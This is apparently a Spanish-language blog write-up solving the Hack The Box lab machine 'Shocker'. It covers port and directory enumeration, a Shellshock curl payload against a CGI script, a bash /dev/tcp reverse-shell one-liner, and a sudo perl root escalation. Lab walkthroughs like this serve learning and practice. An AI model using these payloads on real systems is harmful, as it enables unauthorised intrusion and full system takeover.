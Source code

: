 ```yaml
---
layout: single
title: Hack the box-Shocker 
excerpt: "Maquina Shocker hack the box"
date: 2021-08-26
classes: wide
header:
  teaser: /assets/images/shocker/shocker.jpg
  teaser_home_page: true
categories:
  -HTB -CTF
tags:  
  - HTB
  - enumeration
  - explotacion
---
```


Esta es una resolucion completa de la maquina shocker de hack the box una maquina linux de 64 bits.
### Nivel de dificultad:

Intrusion = facil.

Escala de privilegios = facil. 
## Reconocimiento general de la maquina 
### Reconocimiento de puertos
Realizamos el escaneo con nmap 
```
nmap -p- --open -n -T5 -v 10.10.10.56
```
### Salida de nmap: 
<p align="left">
<img src="/assets/images/shocker/salida-shocker.png">
</p>

## Vemos que tiene un servidor http por el puerto 80 al entrar a esa pagina web vemos la suigente imagen:
<p align="left">
<img src="/assets/images/shocker/web-shocker.png">
</p>

### El codigo fuente muestra esto:
<p align="left">
<img src="/assets/images/shocker/codigofuente-shocker.png">
</p>
### Wappalyzer:
<p align="left">
<img src="/assets/images/shocker/wapalyzer.png">
</p>
### Uso de wfuzz en busca de rutas potenciales:
```
wfuzz -c -w /usr/share/dirb/wordlists/common.txt http://10.10.10.56/FUZZ
```
Ocupe el diccionario /usr/share/dirb/wordlists/common.txt de dirbuster pero otros diccionarios pueden dar los mismos resultados
### Salida de wfuzz:
<p align="left">
<img src="/assets/images/shocker/wfuzz.png">
</p>
Podemos ver un directorio cgi-bin/

### cgi-bin/
Esta carpeta se usa principalmente para guardar archivos con la extension cgi pero no es una obligacion que tengan esta extension para ser guardados aqui
### Archivos .cgi 
Estos archivos son utilizados principalmente para realizar tareas que no son soportadas por el estandar html 

Ej:

Base de datos

Contadores 

### Uso de wfuzz para encontrar archivos con diferentes extensiones:
Creamos un diccionario con extensiones variadas para luego usarlo

extensiones.txt
```
html 
php
pl
cgi 
txt
sh 
```
Uso de wfuzz con dos diccionarios 
```
wfuzz -c --hc=440 -t 500 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensiones.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
```
Encontramos un archivo user-sh
<p align="left">
<img src="/assets/images/shocker/user-sh.png">
</p>
Entramos al recurso /cgi-bin/user.sh
<p align="left">
<img src="/assets/images/shocker/recurso.png">
</p>

## Intrusion a la maquina 
Para ganar acceso a la maquina realizaremos un ataque ShellShock 
en esta mapa en especifico habra que probar hacer un aislamiento de comandos con echo;
### Ganamos ejecucion remota de comandos
```
curl -H "User-Agent: () { :; }; echo; echo; /usr/bin/whoami" http://10.10.10.56/cgi-bin/user.sh
```
### Ganamos una shell 
Nos ponemos en escucha con netcat 
```
nc -nlvp 443
```
Ahora ganamos la shell
```
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -l >& /dev/tcp/(nuestra ip)/443 0>&1" http://10.10.10.56/cgi-bin/user.sh
```
Hacemos un tratamiento de la TTY (Tengo un articulo explicando como hacer un tratamiento de la  TTY)

Realizado el tratamiento de la  TTY tendriamos acceso a la maquina con el usuario shelly y tendriamos acceso a la flag del usuario.
## Escala de privilegios 
Con el comando 
```
sudo -l
```
podemos ver que el usuario root permite ejecutar el comando perl sin necesidad de contraseña

esta pagina nos muestra algunos comandos para escalar privilegios segun los comandos que se nos permita ejecutar
https://gtfobins.github.io/

Podemos ejecutar un comando perl para poder escalar privilegios
```
sudo perl -e 'exec "/bin/sh";'
```
Ahora ya tendriamos acceso a root y a su flag.

